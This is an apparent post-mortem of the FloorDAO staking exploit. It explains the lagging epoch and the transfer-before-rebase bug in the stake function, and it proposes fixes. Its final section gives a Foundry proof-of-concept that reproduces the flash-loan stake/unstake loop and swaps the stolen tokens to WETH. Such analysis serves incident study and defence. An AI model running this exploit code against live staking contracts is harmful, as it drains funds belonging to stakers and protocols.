# 230905-FloorDAO

## AttackTx

Analyzing the [attack transaction](https://explorer.phalcon.xyz/tx/eth/0x1274b32d4dfacd2703ad032e8bd669a83f012dde9d27ed92e4e7da0387adafe4) using Phalcon.

### Fund Flow

The fund flow is not complex.



The attacking contract withdrew approximately 150k Floor tokens from the Uniswap pool and later returned around 168k tokens. Additionally, it obtained 40 WETH. It appears that the attacker used the flash loan functionality of the pool to acquire the initial capital for the attack and then converted the profit earned in Floor tokens into WETH.



Subsequently, the attacking contract transferred Floor tokens to the FloorStaking contract (2), while new Floor tokens were minted into the staking contract (3). This process involved minting and burning gFloor tokens (4, 5). In the end, the attacking contract obtained more Floor tokens than initially transferred to the staking contract (6). (There appears to be an issue in the flow here, as the amount transferred to the staking contract exceeded the originally borrowed Floor tokens.)

Clearly, the attacker was able to profit from this attack, and the issue seems to be related to the FloorStaking contract.

### Balance Changes



From the balance changes, it is evident that the attacker profited by approximately 16k Floor tokens, which were then exchanged for 40 WETH. These Floor tokens originated from the FloorStaking contract, and approximately 13k new Floor tokens were minted by the contract during the attack.

### State Changes



It can be observed that the `Epoch`'s `number` and `end` in the problematic FloorStaking contract were altered.



The total supply of Floor tokens increased, and new tokens were minted.



The state of sFloor tokens also changed significantly.

### Invocation Flow

Next, let's analyze the details of the internal calls within the transaction.



The transaction starts by directly calling the `flash` function of the Uniswap pool, executing a flash loan of all Floor tokens from the pool.



The core of the callback appears to be a loop:

`circulatingSupply -> approve -> stake -> unstake`



Finally, the attacker repays the loan and converts excess Floor tokens into WETH.

Clearly, the main issue lies within the loop of continuous `stake` and `unstake` operations, through which the attacker gained more Floor tokens.

By combining the static call, let's carefully analyze the logic within this loop.



The `circulatingSupply` function retrieves the circulating supply of sFloor tokens. The `approve` function approves the Floor token balance owned by the attacker for the staking contract. Each time, the `circulatingSupply` value increases.

The key to profit lies in the `stake` and `unstake` functions. The `stake` function allows the attacker to deposit all Floor tokens and then immediately call `unstake`, resulting in more Floor tokens than initially staked. This process is repeated, enabling the attacker to acquire more Floor tokens.

Hence, in the earlier fund flow, the transfers of Floor tokens (2, 6) should represent the cumulative effect of multiple cycles of `stake` and `unstake` transfers.

Now, let's analyze the internal call logic of the `stake` and `unstake` functions separately.



In the `stake` function, the attacker first transfers Floor tokens to the staking contract, then calls the `rebase` function of sFloor, followed by the `distribute` function of the Distributor contract. Finally, it mints gFloor tokens for the attacker.

The sequence involves depositing tokens into the contract, performing a `rebase`, distributing tokens, and obtaining staking certificates in the form of gFloor tokens.



All internal calls within `rebase` are static calls.



The `distribute` function, on the other hand, mints new Floor tokens for the FloorStaking contract via the Treasury contract.



In the `unstake` function, the attacker calls the `rebase` function first (compared to `stake`, there is profit here, and the epoch is increased by 1). Then, it calls the `distribute` function of the Distributor contract again. Finally, the attacker burns the gFloor tokens owned and receives more Floor tokens than when initially staked.

Clearly, there are some subtle issues within the `stake` and `unstake` functions of the FloorStaking contract that allowed the attacker to profit.

## Vulnerability

The vulnerability in the FloorDAO protocol and the reasons behind the attacker's profit are complex. Below is a brief analysis. For a detailed understanding, you would need to refer to the relevant contract code of [FloorStaking](https://etherscan.io/address/0x759c6de5bca9ade8a1a2719a31553c4b7de02539#code), as well as knowledge about the FloorDAO protocol and rebase tokens.

### FloorDAO

Floor token is a rebase token, and users can earn profits by staking Floor tokens in the staking contract.

```solidity
/**
* @notice stake FLOOR to enter warmup
* @param _to address
* @param _amount uint
* @param _claim bool
* @param _rebasing bool
* @return uint
*/
function stake(
    address _to,
    uint256 _amount,
    bool _rebasing,
    bool _claim
) external returns (uint256) {
    FLOOR.safeTransferFrom(msg.sender, address(this), _amount);
    _amount = _amount.add(rebase()); // add bounty if rebase occurred
    if (_claim && warmupPeriod == 0) {
        return _send(_to, _amount, _rebasing);
    } else {
        Claim memory info = warmupInfo[_to];
        if (!info.lock) {
            require(_to == msg.sender, "External deposits for account are locked");
        }

        warmupInfo[_to] = Claim({
            deposit: info.deposit.add(_amount),
            gons: info.gons.add(sFLOOR.gonsForBalance(_amount)),
            expiry: epoch.number.add(warmupPeriod),
            lock: info.lock
        });

        gonsInWarmup = gonsInWarmup.add(sFLOOR.gonsForBalance(_amount));

        return _amount;
    }
}
/**
* @notice send staker their amount as sFLOOR or gFLOOR
* @param _to address
* @param _amount uint
* @param _rebasing bool
*/
function _send(
    address _to,
    uint256 _amount,
    bool _rebasing
) internal returns (uint256) {
    if (_rebasing) {
        sFLOOR.safeTransfer(_to, _amount); // send as sFLOOR (equal unit as FLOOR)
        return _amount;
    } else {
        gFLOOR.mint(_to, gFLOOR.balanceTo(_amount)); // send as gFLOOR (convert units from FLOOR)
        return gFLOOR.balanceTo(_amount);
    }
}
```

The `stake` function is responsible for the staking feature, where users stake Floor tokens and receive sFloor/gFloor tokens in return. Both sFloor and gFloor tokens serve the same purpose in earning rewards, with gFloor having additional governance functionality.

Depending on the `_claim` parameter, it decides whether to execute warmup-related operations. If it's true and the `warmupPeriod` is 0 (as set in the contract), users need to call the `claim` function to `_send` and receive tokens. (The warmup is a waiting period before a staker can take their sToken with the rebase rewards. Warmup does not affect the reward amount, it only adds a time threshold for claiming the rewards.)

```solidity
/**
* @notice convert _amount sFLOOR into gBalance_ gFLOOR
* @param _to address
* @param _amount uint
* @return gBalance_ uint
*/
function wrap(address _to, uint256 _amount) external returns (uint256 gBalance_) {
    sFLOOR.safeTransferFrom(msg.sender, address(this), _amount);
    gBalance_ = gFLOOR.balanceTo(_amount);
    gFLOOR.mint(_to, gBalance_);
}

/**
* @notice convert _amount gFLOOR into sBalance_ sFLOOR
* @param _to address
* @param _amount uint
* @return sBalance_ uint
*/
function unwrap(address _to, uint256 _amount) external returns (uint256 sBalance_) {
    gFLOOR.burn(msg.sender, _amount);
    sBalance_ = gFLOOR.balanceFrom(_amount);
    sFLOOR.safeTransfer(_to, sBalance_);
}
```

After staking, users can convert their sFloor/gFloor tokens using the `wrap` and `unwrap` functions in the contract.

```solidity
constructor() ERC20("Staked FLOOR", "sFLOOR", 9) ERC20Permit("Staked FLOOR") {
    initializer = msg.sender;
    _totalSupply = INITIAL_FRAGMENTS_SUPPLY;
    _gonsPerFragment = TOTAL_GONS.div(_totalSupply);
}

function initialize(address _stakingContract, address _treasury) external {
    require(msg.sender == initializer, "Initializer:  caller is not initializer");

    require(_stakingContract != address(0), "Staking");
    stakingContract = _stakingContract;
    _gonBalances[stakingContract] = TOTAL_GONS;

    require(_treasury != address(0), "Zero address: Treasury");
    treasury = _treasury;

    emit Transfer(address(0x0), stakingContract, _totalSupply);
    emit LogStakingContractUpdated(stakingContract);

    initializer = address(0);
}
```

Considering gas costs, adjusting the balances of stakers proportionally with each rebase would be overly complex. Therefore, the contract introduces variables like `_gonsPerFragment` and `TOTAL_GONS` in the [sFloor token contract](https://etherscan.io/address/0x164AFe96912099543BC2c48bb9358a095Db8e784). The initial supply of sFloor tokens is set as `INITIAL_FRAGMENTS_SUPPLY`, and `_gonsPerFragment` is calculated as `TOTAL_GONS/_totalSupply`.

Here, gons serve as an internal unit, with a fixed total supply of `TOTAL_GONS`, while `_gonsPerFragment` changes with `_totalSupply`.

```solidity
function transfer(address to, uint256 value) public override(IERC20, ERC20) returns (bool) {
    uint256 gonValue = value.mul(_gonsPerFragment);

    _gonBalances[msg.sender] = _gonBalances[msg.sender].sub(gonValue);
    _gonBalances[to] = _gonBalances[to].add(gonValue);

    require(balanceOf(msg.sender) >= debtBalances[msg.sender], "Debt: cannot transfer amount");
    emit Transfer(msg.sender, to, value);
    return true;
}
function balanceOf(address who) public view override(IERC20, ERC20) returns (uint256) {
    return _gonBalances[who].div(_gonsPerFragment);
}
```

When users stake, they receive a balance represented by `_gonBalances`. This value is calculated based on the `gonsPerFragment` at the time of staking and doesn't change afterward. sFloor token balances are calculated as `_gonBalances/_gonsPerFragment`.

```solidity
/**
@notice increases sFLOOR supply to increase staking balances relative to profit_
@param profit_ uint256
@return uint256
*/
function rebase(uint256 profit_, uint256 epoch_) public override onlyStakingContract returns (uint256) {
    uint256 rebaseAmount;
    uint256 circulatingSupply_ = circulatingSupply();
    if (profit_ == 0) {
        emit LogSupply(epoch_, _totalSupply);
        emit LogRebase(epoch_, 0, index());
        return _totalSupply;
    } else if (circulatingSupply_ > 0) {
        rebaseAmount = profit_.mul(_totalSupply).div(circulatingSupply_);
    } else {
        rebaseAmount = profit_;
    }

    _totalSupply = _totalSupply.add(rebaseAmount);

    if (_totalSupply > MAX_SUPPLY) {
        _totalSupply = MAX_SUPPLY;
    }

    _gonsPerFragment = TOTAL_GONS.div(_totalSupply);

    _storeRebase(circulatingSupply_, profit_, epoch_);

    return _totalSupply;
}
```

Therefore, when conducting a `rebase` to mint new tokens, after increasing `_totalSupply`, only `_gonsPerFragment` needs to be adjusted correspondingly to increase the sFloor token balance of stakers. The gons balance of sFloor token holders never changes; it's only altered by changing `_gonsPerFragment`.

```solidity
struct Epoch {
    uint256 length; // in seconds
    uint256 number; // since inception
    uint256 end; // timestamp
    uint256 distribute; // amount
}
```

The staking contract uses the `Epoch` structure to keep track of rebase states. An epoch is a waiting period before a staker can claim rebase rewards. The `length` of an epoch in the Floor protocol is 8 hours, meaning that a rebase can occur every 8 hours. The `distribute` field represents the amount of rewards to be distributed in that epoch, which corresponds to the `rebaseAmount`.

```solidity
/**
* @notice trigger rebase if epoch over
* @return uint256
*/
function rebase() public returns (uint256) {
    uint256 bounty;
    if (epoch.end <= block.timestamp) {
        sFLOOR.rebase(epoch.distribute, epoch.number);

        epoch.end = epoch.end.add(epoch.length);
        epoch.number++;

        if (address(distributor) != address(0)) {
            distributor.distribute();
            bounty = distributor.retrieveBounty(); // Will mint floor for this contract if there exists a bounty
        }
        uint256 balance = FLOOR.balanceOf(address(this));
        uint256 staked = sFLOOR.circulatingSupply();
        if (balance <= staked.add(bounty)) {
            epoch.distribute = 0;
        } else {
            epoch.distribute = balance.sub(staked).sub(bounty);
        }
    }
    return bounty;
}
```

Each epoch's rebase amount is calculated in the `rebase` function of the staking contract. This function checks if it's time for a rebase, then calls the rebase function of the sFloor token to mint new Floor tokens for the current epoch and adjusts to the next epoch.

```solidity
/**
@notice send epoch reward to staking contract
*/
function distribute() external override {
    require(msg.sender == staking, "Only staking");
    // distribute rewards to each recipient
    for (uint256 i = 0; i < info.length; i++) {
        if (info[i].rate > 0) {
            treasury.mint(info[i].recipient, nextRewardAt(info[i].rate)); // mint and send tokens
            adjust(i); // check for adjustment
        }
    }
}
/**
@notice view function for next reward at given rate
@param _rate uint
@return uint
*/
function nextRewardAt(uint256 _rate) public view override returns (uint256) {
    return floor.totalSupply().mul(_rate).div(rateDenominator);
}
```

The `distribute` function of the distributor contract is called to mint new Floor tokens for the staking contract. In this case, there's only one entry in `info`, which corresponds to the staking contract. The rate is set as 250/1000000, meaning that the Floor token's total supply will inflate by 0.025% every epoch.

In conclusion, during a rebase, the `rebase` function calculates how much rewards to distribute for the current epoch. If the Floor token balance in the staking contract is greater than the circulating supply of sFloor tokens, the surplus becomes the `distribute` amount for the next epoch.

### Reason for Profit

The previous section briefly explained the process of the Floor protocol staking, which seems reasonable on the surface but actually contains some issues. Specifically, the attacker's profit in this attack can be attributed to the combination of the following two reasons.

#### Lagging Epoch

As mentioned earlier, the Floor staking protocol has an epoch that occurs every 8 hours, during which token distribution takes place. Users receive more Floor tokens based on their staking ratio. In normal circumstances, users would need to wait for at least one epoch (0-8 hours) after staking to let the `rebase` process complete before they can claim their rewards by `unstaking`.

However, if the `rebase` process is not executed in a timely manner (according to the code, either by directly calling the `rebase` function, invoking the `stake` function, or calling the `unstake` function with the `_trigger` parameter), which means that staking activities are infrequent and there are no bots to perform timely rebases, it results in a lagging epoch.

A lagging epoch allows users to perform an immediate `rebase` and then `unstake`, acquiring more newly minted Floor tokens. In this attack, which occurred on September 5th, the staking epoch was still at May 16th, lagging behind by several months. Therefore, the attacker was able to flash loan Floor tokens in a single transaction, execute multiple `rebase` operations, and profit from the token distributed without any monetary or time cost.

In theory, a lag of at least two epochs is required. The first epoch is used for staking and accumulating `profit` (as `stake` triggers one `rebase` call, but the attacker do not complete the staking before it), while the second epoch is used for `unstaking` to claim rewards (obtaining the distributed rewards set during the previous `rebase`).

(However, flash loans come with fees, so it is not so easy to profit from this process.)

#### Bug in `stake` Function

The second issue lies within a bug in the `stake` function.

Based on the previous analysis, as `rebase` increases, the number of sFloor tokens owned by users (`sFloor.balanceOf()`) increases. Through the `unstake` process, sFloor tokens can be exchanged for Floor tokens, allowing users to earn rewards. Clearly, during this process, Floor tokens also need to be minted, and the minted amount should be equivalent to the increase in sFloor tokens.

From the earlier analysis, we understand that during each `rebase`, the `distributor` calls the `distribute` function to `mint` new Floor tokens. These newly minted tokens should constitute the rewards to be distributed in the next `rebase`, and they should be equal to the increase in sFloor tokens.

But does this actually happen? Let's revisit how sFloor tokens are distributed.

```solidity
uint256 balance = FLOOR.balanceOf(address(this));
uint256 staked = sFLOOR.circulatingSupply();
if (balance <= staked.add(bounty)) {
    epoch.distribute = 0;
} else {
    epoch.distribute = balance.sub(staked).sub(bounty);
}
```

In the `rebase` function of the FloorStaking contract, it calculates the Floor token balance of the staking contract and the circulating supply of sFLOOR tokens. If the Floor balance is greater than the circulating sFloor tokens, the surplus should be the rewards to be distributed in the next epoch, and it calls the `rebase` function of the sFloor contract to distribute these rewards in the next `rebase`.

This appears to be reasonable: if the quantity of Floor tokens in the staking contract exceeds the circulating supply of sFLOOR, the excess should indeed be newly minted Floor tokens to be distributed in the next epoch.

However, when analyzing the attack, it becomes evident that the Floor token balance in the staking contract before the attack was significantly lower than the circulating sFloor tokens (approximately 20k), which is clearly unreasonable (imagine if all stakers decided to unstake at that moment, there would not be enough Floor tokens). Furthermore, during each `rebase`, only about 400 Floor tokens were minted, yet in the first `unstake` transaction, the attacker managed to obtain over 10k Floor tokens. These anomalies indicate that there is an issue in the contract's logic.

```solidity
FLOOR.safeTransferFrom(msg.sender, address(this), _amount);
_amount = _amount.add(rebase()); // add bounty if rebase occurred
if (_claim && warmupPeriod == 0) {
    return _send(_to, _amount, _rebasing);
} else {
    ...
}
```

The problem actually lies within the `stake` function, which first transfers the Floor tokens the user wants to stake to the staking contract and then calls the `rebase` function. This causes the `balance` calculated during rebase to include the amount that users have staked, resulting in data discrepancies.



Looking at the [first rebase transaction](https://explorer.phalcon.xyz/tx/eth/0x13d8ee0531636b455fc8105e5f8e2d11c26901cf9db04156c9f32801d976889a), which directly called the `rebase` function to complete the rebase, this was the first epoch, so the `profit` was 0, and no tokens were issued.



Subsequently, the `distribute` was called, minting new Floor tokens (with a rate of 1000). Therefore, the subsequent calculation showed that the Floor reserves were higher than the circulating sFloor tokens, and the surplus became the rewards for the next epoch (`distribute/profit`) (1000), clearly the reserve of Floor tokens and circulation quantity of sFloor before mint are consistent.

This process is correct because the rebase was not completed through the `stake` function.



However, the [second rebase transaction](https://explorer.phalcon.xyz/tx/eth/0x807e9f354236504f913048005e3661d342bd23be3532466bc6a999e1fcb5cce1) was executed through the `stake` function, leading to a problem. In the `stake` function, it first called the `rebase` function of sFloor to distribute rewards from the previous epoch, and then, based on the growth rate, minted approximately 1020 new Floor tokens. Normally, the `balance-staked` should be approximately 1020. Floor reserves should only exceed the circulating sFloor tokens after minting new Floor tokens, and then it should be distributed in the next rebase, returning to balance. In other words, the `profit` during each rebase should be the Floor tokens minted in the previous rebase. At each epoch, the calculated Floor reserve should be higher than the sFloor's circulating supply, and the surplus should be distributed to the stakers in the next epoch.



However, due to the incorrect `transfer->rebase` order mentioned earlier, when calculating the rewards for the next epoch, the `balance` was augmented by the user's staked amount (which was 129 in this case). This resulted in an incorrect `profit` of 1149 (1020+129). While only 1020 Floor tokens were minted, the next epoch was set to distribute 1149 sFloor tokens, causing all stakers to receive more tokens after the next rebase than they should have.

At this point, the circulating sFloor tokens exceeded the Floor reserves. If everyone tried to convert their sFloor to Floor, it wouldn't be possible. Since the new minted Floor tokens would only be distributed in the next epoch, the balance might suffice initially, but over time, the discrepancies between `balance` and `staked` would grow. Essentially, this created additional rewards out of thin air but was effectively overdrawing the staking contract's Floor token balance. This meant that the current distribution would be greater than the actual distribution/minted amount, and it could potentially lead to a situation where newly generated Floor tokens couldn't catch up with the circulating sFloor tokens for a long time (if directly calling `rebase`). However, if the incorrect `rebase` method (`stake` function) continued to be used, a significant amount of tokens could be injected to perpetuate the incorrect distribution/overdraft for profit.

---

This attack resulted from the combination of the two aforementioned reasons: the lagging epoch allowed the attacker to perform multiple rebases in a single transaction, and the bug in the `stake` function, which involved an incorrect `transfer->rebase` order, caused a balance calculation discrepancy. This allowed the attacker to stake a large number of Floor tokens to inflate the next epoch's `profit` and thereby gain more profit.

Other users who had staked before the attack could also profit (since a large number of sFloor tokens were distributed). However, the attacker immediately sold the Floor tokens after the attack, causing the Floor price to drop, indirectly causing losses to other Floor stakers.

To address the lagging epoch issue, it would be advisable to set up bots to perform real-time rebases and update the epoch. Regarding the bug in the `stake` function, the correct approach should be to first call `rebase`, calculate the `profit` for the next epoch, and then transfer the Floor tokens.

## Exploit

### Reproduction

Based on the above analysis, combined with the AttackTx, the exploit can be reproduced as follows:

```solidity
function testExploit() external {
    uint attackBlockNumber = 18068772;
    // uint attackBlockNumber = 17068772;
    vm.rollFork(attackBlockNumber);
    (, uint256 number, uint256 end, ) = staking.epoch();
    emit log_named_uint("Epoch number", number);
    emit log_named_uint("Epoch end", end);
    emit log_named_decimal_uint("floor balanceOf StakingPool", floor.balanceOf(address(staking)), floor.decimals());
    emit log_named_decimal_uint("floor balanceOf Pair", floor.balanceOf(address(floor_weth)), floor.decimals());
    emit log_named_decimal_uint("sFloor sirculatingSupply", sFloor.circulatingSupply(), sFloor.decimals());

    flashAmount = floor.balanceOf(address(floor_weth)) - 1;
    floor_weth.flash(address(this), 0, flashAmount, "");

    uint256 profitAmount = floor.balanceOf(address(this));
    emit log_named_decimal_uint("floor balance after exploit", profitAmount, floor.decimals());
    floor_weth.swap(address(this), false, int256(profitAmount), uint160(0xfFfd8963EFd1fC6A506488495d951d5263988d25), "");
    emit log_named_decimal_uint("weth balance after swap", weth.balanceOf(address(this)), weth.decimals());
}

function uniswapV3FlashCallback(uint256 /*fee0*/ , uint256 fee1, bytes calldata) external {
    uint i = 0;
    while(i < 17) {
        uint balanceAttacker = floor.balanceOf(address(this));
        uint balanceStaking = floor.balanceOf(address(staking));
        uint circulatingSupply = sFloor.circulatingSupply();
        if (balanceAttacker + balanceStaking > circulatingSupply) {  // will produce profit in next epoch
            floor.approve(address(staking), balanceAttacker);
            staking.stake(address(this), balanceAttacker, false, true); // get gFloor
            uint gFloorBalance = gFloor.balanceOf(address(this));
            staking.unstake(address(this), gFloorBalance, true, false);
            i += 1;
        }
    }
    floor.transfer(msg.sender, flashAmount + fee1);
}

function uniswapV3SwapCallback(int256 /*amount0Delta*/, int256 amount1Delta, bytes calldata /*data*/) external {
    int256 amount = amount1Delta;
    if (amount <= 0) {
        amount = 0 - amount;
    }
    floor.transfer(msg.sender, uint256(amount));
}
```

In the `flash` callback, the specific attack process is executed. Here, the attacker sets the `stake/unstake` loop to run 17 times, which can actually be increased to obtain more Floor tokens. However, if too many loops are executed, an error "Treasury: insufficient reserves" will occur during the `mint` operation.

```solidity
/**
* @notice mint new FLOOR using excess reserves
* @param _recipient address
* @param _amount uint256
*/
function mint(address _recipient, uint256 _amount) external override {
    require(permissions[STATUS.REWARDMANAGER][msg.sender], notApproved);
    require(_amount <= excessReserves(), insufficientReserves);
    FLOOR.mint(_recipient, _amount);
    emit Minted(msg.sender, _recipient, _amount);
}
```

This involves the `mint` function called in the Treasury contract after the distributor. We won't delve into this here.

